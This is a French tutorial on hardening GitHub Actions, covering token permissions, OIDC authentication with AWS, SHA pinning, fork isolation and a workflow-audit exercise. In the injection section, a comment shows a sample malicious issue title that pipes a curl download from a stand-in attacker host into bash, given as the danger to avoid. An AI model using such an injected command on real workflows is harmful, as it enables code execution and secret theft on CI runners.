

## Les risques de sécurité dans GitHub Actions

GitHub Actions est un vecteur d'attaque de plus en plus ciblé. Les menaces courantes :

- **Injection de code via les inputs** : une expression `${{ github.event.issue.title }}` dans un `run:` peut injecter des commandes shell si un attaquant crée une issue avec un titre malicieux.
- **Actions tierces compromises** : une action du marketplace peut être modifiée après que vous l'avez adoptée.
- **Secrets exfiltrés** : une action malveillante peut tenter de lire tous les secrets disponibles.
- **Élévation de privilèges** : un workflow trop permissif peut permettre de modifier le dépôt, les secrets ou l'infrastructure.

## Modèle de permissions du `GITHUB_TOKEN`

Le `GITHUB_TOKEN` est le token automatiquement injecté dans chaque workflow. Par défaut, ses permissions sont soit `read-all` soit `write-all` selon la configuration de l'organisation ou du dépôt.

### Configurer les permissions par défaut

Dans **Settings → Actions → General → Workflow permissions**, choisissez :
- **Read repository contents and packages permissions** (recommandé)

Cela force chaque workflow à déclarer explicitement ses besoins.

### Déclarer les permissions au niveau du workflow

```yaml
# Principe de moindre privilège
permissions:
  contents: read           # Lire le code (nécessaire pour checkout)

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
```

### Déclarer des permissions au niveau d'un job

```yaml
permissions: {}             # Aucune permission au niveau workflow

jobs:
  test:
    runs-on: ubuntu-latest
    permissions:
      contents: read        # Lecture seule pour ce job
    steps:
      - uses: actions/checkout@v4

  publish:
    runs-on: ubuntu-latest
    permissions:
      packages: write       # Écriture dans GHCR uniquement pour ce job
      contents: read
    steps:
      - uses: docker/build-push-action@v6
```

### Référence des permissions disponibles

| Permission            | Description                                    |
|-----------------------|------------------------------------------------|
| `contents`            | Lire/écrire les fichiers du dépôt              |
| `packages`            | Publier sur GHCR                               |
| `pull-requests`       | Créer, modifier, commenter les PRs             |
| `issues`              | Créer, modifier les issues                     |
| `id-token`            | Générer un token OIDC (pour cloud sans secrets)|
| `deployments`         | Créer/mettre à jour les déploiements           |
| `checks`              | Créer/modifier les check runs                  |
| `security-events`     | Créer des alertes de sécurité (CodeQL)         |

## OIDC — Se connecter au cloud sans secrets

**OpenID Connect (OIDC)** permet à un workflow GitHub Actions de s'authentifier auprès d'un fournisseur cloud (AWS, GCP, Azure) **sans stocker de credentials** dans les secrets GitHub.

### Comment ça fonctionne



### Avantages vs secrets statiques

| Aspect                  | Secrets statiques      | OIDC                      |
|-------------------------|------------------------|---------------------------|
| Stockage des credentials | Dans GitHub Secrets    | Aucun                     |
| Durée de vie             | Indéfinie              | Quelques heures            |
| Rotation                 | Manuelle               | Automatique               |
| Audit                    | Difficile              | Natif via les logs cloud  |
| Risque en cas de leak    | Permanent jusqu'à rotation | Négligeable (expiré)   |

### Configuration OIDC avec AWS

**Côté AWS** — créer un Identity Provider :

1. IAM → Identity Providers → Add provider
2. Provider type: OpenID Connect
3. Provider URL: `https://token.actions.githubusercontent.com`
4. Audience: `sts.amazonaws.com`

Créer un rôle IAM avec cette trust policy :

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
          "token.actions.githubusercontent.com:sub": "repo:mon-org/mon-repo:ref:refs/heads/main"
        }
      }
    }
  ]
}
```

**Côté workflow** :

```yaml
permissions:
  id-token: write          # Obligatoire pour OIDC
  contents: read

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/github-actions-role
          aws-region: eu-west-1
          # Pas de secrets AWS_ACCESS_KEY_ID ni AWS_SECRET_ACCESS_KEY !

      - run: aws s3 ls
```

## Prévenir les injections via les inputs

### Le problème

```yaml
# DANGEREUX — Ne jamais faire ça
- run: echo "${{ github.event.issue.title }}"
# Si le titre contient : "'; curl https://evil.com | bash; echo '"
# → commande arbitraire exécutée sur le runner
```

### La solution : passer via des variables d'environnement

```yaml
# SÉCURISÉ
- name: Traiter le titre
  env:
    TITLE: ${{ github.event.issue.title }}     # Assigné comme variable d'env
  run: echo "$TITLE"                            # Utilisé comme variable shell, jamais interpolé
```

Quand la valeur est assignée à une variable d'environnement, elle ne passe pas par le parseur de commandes shell — c'est une chaîne de caractères inerte.

### Valider les inputs `workflow_dispatch`

```yaml
on:
  workflow_dispatch:
    inputs:
      environment:
        type: choice
        options: [staging, production]   # Seules ces valeurs sont acceptées

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - name: Valider l'environnement
        run: |
          if [[ "${{ github.event.inputs.environment }}" != "staging" && \
                "${{ github.event.inputs.environment }}" != "production" ]]; then
            echo "Environnement invalide"
            exit 1
          fi
```

## Épingler les actions par SHA

```yaml
# Risqué : un tag peut être réécrit
- uses: actions/checkout@v4

# Sécurisé : le SHA est immuable
- uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683  # v4.2.2
```

Des outils comme [Dependabot](https://docs.github.com/en/code-security/dependabot/working-with-dependabot/keeping-your-actions-up-to-date-with-dependabot) peuvent automatiquement mettre à jour ces SHAs.

### Configurer Dependabot pour les Actions

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: "github-actions"
    directory: "/"
    schedule:
      interval: "weekly"
    commit-message:
      prefix: "chore(deps)"
```

## Isolation des workflows de fork

Les workflows déclenchés par un fork reçoivent des permissions réduites par défaut — les secrets du dépôt ne sont **pas** disponibles pour les PRs venant de forks. C'est une protection essentielle.

Pour permettre aux PRs de fork d'accéder aux secrets de façon contrôlée, utilisez le pattern `pull_request_target` (avec précaution) :

```yaml
# pull_request_target s'exécute dans le contexte du dépôt cible (pas du fork)
# → a accès aux secrets, mais exécute le code du FORK — DANGER si mal utilisé
on:
  pull_request_target:
    types: [labeled]           # Seulement quand un label est ajouté manuellement
                               # ce label sert de validation humaine

jobs:
  test-with-secrets:
    if: contains(github.event.pull_request.labels.*.name, 'safe to test')
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}  # Code du fork
      - run: pytest
        env:
          API_KEY: ${{ secrets.API_KEY }}
```

> **Règle d'or** : ne combinez jamais `pull_request_target` + checkout du code du fork + accès aux secrets sans validation humaine explicite.

> **Exercice** : Auditez le workflow `ci.yml` de `mon-app`. Ajoutez les déclarations de permissions explicites (minimales) nécessaires et corrigez toute utilisation de variables utilisateur directement dans les commandes `run:`.

<details>
<summary>Solution</summary>

```yaml
name: CI

on:
  push:
    branches: [main]
  pull_request:
    branches: [main]

# Permissions minimales au niveau workflow
permissions:
  contents: read             # Pour actions/checkout

jobs:
  test:
    runs-on: ubuntu-latest
    # Pas besoin de permissions supplémentaires pour ce job
    strategy:
      fail-fast: false
      matrix:
        python-version: ["3.11", "3.12"]
    steps:
      - uses: actions/checkout@v4

      - uses: actions/setup-python@v5
        with:
          python-version: ${{ matrix.python-version }}
          cache: pip

      - run: pip install -r requirements.txt -r requirements-dev.txt

      - run: pytest --cov=app --cov-report=xml

      - uses: actions/upload-artifact@v4
        if: always()
        with:
          name: coverage-${{ matrix.python-version }}
          path: coverage.xml
          retention-days: 14
```

Ce workflow n'utilise pas de variables utilisateur dans les `run:`, donc il n'y a pas de risque d'injection. La seule permission nécessaire est `contents: read` pour `actions/checkout`.

Si on avait un job qui commente sur la PR, il faudrait ajouter `pull-requests: write` spécifiquement à ce job.

</details>
